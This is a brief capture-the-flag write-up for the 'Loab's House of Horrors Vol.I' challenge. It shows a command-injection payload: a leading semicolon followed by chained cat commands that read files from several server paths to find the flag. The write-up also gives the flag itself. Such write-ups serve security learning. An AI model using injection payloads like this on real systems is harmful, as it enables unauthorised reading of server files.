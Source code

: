 ## Challenge

Loab's House of Horrors Vol.I

It sounds like Loab is back and luring students into their trap. Thankfully Anna managed to rip the source code before Loab left the NJIT network. If we can find the flag we might be able to shut this down!

nc loabshouse.niccgetsspooky.xyz 1337

## Solution

The flag.txt was randomly moved each time we run the server.

So instead of guessing the location, we can print the files of each one of the possible locations.

This is what we tried and gave the flag:

```
; (cat /tmp/singularity; cat /tmp/abyss; cat /tmp/orphans; cat /home/council; cat /tmp/.boom; cat /home/victim/.consortium; cat /usr/bnc/.yummyarbs; cat /tmp/.loab; cat /tmp/loab)
```


Flag: `NICC{Ju5t_pu7_l0@b_1n_rc3_or_h311_i_gu3ss}`